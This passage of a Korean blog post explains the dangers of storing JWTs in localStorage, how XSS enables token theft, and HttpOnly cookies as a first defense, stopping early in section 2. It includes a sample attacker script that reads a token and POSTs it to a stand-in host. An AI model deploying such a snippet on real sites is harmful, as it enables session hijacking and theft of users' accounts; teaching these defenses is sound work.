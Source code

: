 ```yaml
---
slug: 2025-08-28-jwt-safe-storage-csrf-xss-deep-dive
title: JWT, 아직도 localStorage에 저장하시나요? CSRF와 XSS 공격 완벽 방어 가이드
date: 2025-09-01 12:32:18.470000+00:00
summary: localStorage의 위험성부터 HttpOnly 쿠키의 한계, 그리고 CSRF 토큰의 원리까지, 프론트엔드 개발자가 반드시 알아야 할 인증 토큰 보안의 모든 것을 A부터 Z까지 파헤쳐봅니다.
tags: ["JWT", "localStorage", "Cookie", "CSRF", "XSS", "프론트엔드 보안"]
contributors: []
draft: false
---
```


안녕하세요.<br /><br />
모던 웹 애플리케이션을 개발하면서 JWT 같은 인증 토큰을 다루는 것은 이제 거의 필수가 되었는데요.<br /><br />
그런데 이 중요한 토큰을 대체 '어디에' 저장해야 가장 안전할까 하는 질문에 대해서는, 생각보다 많은 개발자분들이 명확한 답을 내리기 어려워하십니다.<br /><br />
구현이 간편하다는 이유로 `localStorage`를 선택하는 경우가 많지만, 이는 우리 애플리케이션을 심각한 보안 위협에 노출시키는 지름길이 될 수 있거든요.<br /><br />
오늘은 왜 `localStorage`가 위험한 선택인지부터 시작해서, `HttpOnly` 쿠키와 `CSRF` 토큰을 조합한 '다층 방어(Defense in Depth)' 전략이 왜 현대 웹 보안의 표준으로 자리 잡았는지, 그 기술적인 원리를 A부터 Z까지 깊이 있게 파헤쳐 보겠습니다.<br /><br />
이 글을 끝까지 읽으시면, 단순히 '따라 하는' 보안이 아니라 '원리를 이해하고 적용하는' 보안에 대한 자신감을 얻게 되실 겁니다.<br /><br />

## 1. 비극의 시작 `localStorage`와 XSS 공격

많은 튜토리얼이나 간단한 예제에서 JWT를 `localStorage`에 저장하는 코드를 쉽게 찾아볼 수 있는데요.<br /><br />
`localStorage.setItem()`과 `getItem()`으로 다루기 쉽다는 점이 분명 매력적이기 때문입니다.<br /><br />
하지만 이 편리함 뒤에는 'XSS(Cross-Site Scripting)'라는 치명적인 위험이 도사리고 있습니다.<br /><br />
XSS는 공격자가 우리 웹사이트의 취약점을 이용해 악성 자바스크립트 코드를 삽입하고, 다른 사용자의 브라우저에서 그 코드를 실행시키는 공격 기법이거든요.<br /><br />
만약 우리 서비스의 댓글 창이나 게시판 입력 폼에 입력값 검증이 허술하다면, 공격자는 `<script>` 태그를 포함한 악성 코드를 데이터베이스에 저장할 수 있습니다.<br /><br />
그리고 다른 사용자가 이 댓글이나 게시글을 조회하는 순간, 해당 스크립트가 그 사용자의 브라우저에서 실행되는 겁니다.<br />

```javascript
// 공격자가 삽입한 악성 스크립트의 예시
const token = localStorage.getItem('jwt-token');
fetch('https://attacker-server.com/steal', {
  method: 'POST',
  body: JSON.stringify({ token: token })
});
```

`localStorage`에 저장된 데이터는 동일 출처(Same-Origin) 내의 모든 자바스크립트 코드로 자유롭게 접근이 가능한데요.<br /><br />
따라서 위와 같은 악성 스크립트가 실행되면, 사용자의 인증 토큰은 속수무책으로 탈취당해 공격자의 서버로 전송되고 맙니다.<br /><br />
이것이 바로 '세션 하이재킹'입니다.<br /><br />
공격자는 이 토큰을 이용해 정상적인 사용자인 것처럼 위장하여 우리의 API를 마음대로 호출하고, 사용자의 개인정보를 훔치거나 계정을 파괴하는 등 끔찍한 결과를 초래할 수 있습니다.<br /><br />

## 2. 1차 방어선 `HttpOnly` 쿠키

XSS 공격으로부터 토큰 탈취를 막기 위한 가장 기본적인 방어선이 바로 `HttpOnly` 속성을 가진 쿠키인데요.<br /><br />
서버가 브라우저에 쿠키를 전송할 때 `Set-Cookie` 헤더에 `HttpOnly` 플래그를 포함시키면, 해당 쿠키는 자바스크립트의 `document.cookie` API를 통한 접근이 원천적으로 차단됩니다.<br />
